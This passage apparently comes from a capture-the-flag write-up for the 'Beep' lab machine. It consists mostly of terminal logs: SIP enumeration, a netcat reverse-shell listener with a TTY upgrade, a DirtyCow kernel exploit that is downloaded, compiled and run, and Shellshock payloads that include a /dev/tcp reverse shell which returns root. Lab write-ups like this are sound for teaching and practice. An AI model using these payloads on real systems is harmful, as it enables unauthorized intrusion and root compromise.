root@kali:~/beep# svmap 10.10.10.7
| SIP Device      | User Agent          | Fingerprint |
-------------------------------------------------------
| 10.10.10.7:5060 | FPBX-2.8.1(1.8.7.0) | disabled    |

root@kali:~/beep#
```

```sh
root@kali:~/beep# svwar -m INVITE -e100-300 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
| Extension | Authentication |
------------------------------
| 233       | reqauth        |

root@kali:~/beep#
```


[``Upgrading simple shells to fully interactive TTYs``](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
root@kali:~/beep# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.7] 54871
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$
bash-3.2$ ^Z
[1]+  Stopped                 nc -nlvp 443
root@kali:~/beep# echo $TERM
xterm-256color
root@kali:~/beep# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/beep# stty raw -echo
root@kali:~/beep# nc -nlvp 443
                              reset


bash-3.2$ export SHELL=bash
bash-3.2$ export TERM=xterm256-color
bash-3.2$ stty rows 51 columns 204
bash-3.2$
```


[``dirty.c``](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

```sh
root@kali:~/beep# wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
--2018-02-01 11:19:15--  https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1942 (1.9K) [text/plain]
Saving to: ‘dirty.c’

dirty.c                                            100%[================================================================================================================>]   1.90K  --.-KB/s    in 0s

2018-02-01 11:19:15 (5.13 MB/s) - ‘dirty.c’ saved [4815]

root@kali:~/beep#
```

```sh
bash-3.2$ export TERM=xterm
bash-3.2$ nano c0w.c
bash-3.2$ gcc -pthread c0w.c -o dirty -lcrypt
bash-3.2$ chmod 777 dirty
bash-3.2$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

mmap: b7f22000

[1]+  Stopped                 ./dirty
bash-3.2$
bash-3.2$ su firefart
su: user firefart does not exist
bash-3.2$
```

###### Shellshock

```sh
() {  :; }; /bin/echo hello
() {  :; }; sleep 10
() {  :; }; bash -i >& /dev/tcp/10.10.14.8/9999 0>&1
```


```sh
root@kali:~/beep# ncat -nlvp 9999
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: AE14 FD5D FBFE 8166 99FD F4B9 4A13 B54D 2525 5860
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.7.
Ncat: Connection from 10.10.10.7:42559.
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]#
```